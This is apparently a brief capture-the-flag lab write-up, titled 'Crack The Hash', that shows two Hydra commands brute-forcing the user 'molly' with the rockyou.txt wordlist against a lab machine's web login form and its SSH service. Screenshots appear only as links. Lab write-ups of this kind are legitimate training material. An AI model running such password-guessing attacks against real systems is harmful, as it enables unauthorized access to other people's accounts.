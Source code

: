 # Crack The Hash

* ### WEB
```bash
hydra -l molly -P rockyou.txt 10.10.43.93 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect"
```
![image](https://github.com/lufffe/Writeups/assets/90646635/9746fcd7-19e0-4f0d-bb0c-64dac103be07)

* ### SSH
```bash
hydra -l molly -P rockyou.txt 10.10.43.93 ssh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5b8654c1-88c7-4c73-ae8f-f74fa8deb10b)






